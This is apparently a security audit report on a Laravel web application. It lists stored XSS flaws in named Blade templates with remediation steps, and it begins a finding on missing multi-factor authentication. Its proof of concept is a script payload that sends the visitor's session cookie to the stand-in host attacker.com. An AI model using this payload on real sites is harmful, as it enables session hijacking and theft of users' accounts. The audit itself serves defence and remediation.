 
## ⚠️ HIGH PRIORITY FINDINGS (P1 - WITHIN 1 WEEK)

### 4. **MULTIPLE XSS VULNERABILITIES**
**Severity:** 🟡 HIGH | **CVSS Score:** 7.8
**Affected Files:** Multiple Blade templates

**Vulnerable Instances:**
- `resources\views\article_detail.blade.php:252` - `{!! $berita->deskripsi_berita !!}`
- `resources\views\berita\show.blade.php:16` - Raw content display
- `resources\views\project\show.blade.php:128` - `{!! $project->project_description !!}`
- `resources\views\welcome.blade.php:534` - Profile content without escaping

**Vulnerability Type:** Stored XSS (Cross-Site Scripting)

**Attack Scenarios:**
- Admin creates malicious content that executes in user browsers
- Session hijacking through injected JavaScript
- Credential harvesting via fake login forms
- Defacement and content manipulation

**Proof of Concept:**
```html
<!-- Malicious payload in article description -->
<script>
document.location='http://attacker.com/steal.php?cookie='+document.cookie;
</script>
```

**Immediate Remediation:**
```php
<!-- Replace raw output with escaped output -->
{{ $berita->deskripsi_berita }}

<!-- For HTML content, use purifier -->
{!! Purifier::clean($berita->deskripsi_berita) !!}
```

**Implementation Steps:**
1. Install HTMLPurifier: `composer require mews/purifier`
2. Replace all `{!! !!}` with `{{ }}` or purified output
3. Implement Content Security Policy headers
4. Add input sanitization in controllers

---

### 5. **MISSING MULTI-FACTOR AUTHENTICATION**
**Severity:** 🟡 HIGH | **CVSS Score:** 7.2
**Context:** Admin panel authentication system

**Current State Analysis:**
- MFA trait available in User model but not implemented
- Single-factor authentication for admin access
- No backup authentication methods
- Password-only security for administrative functions
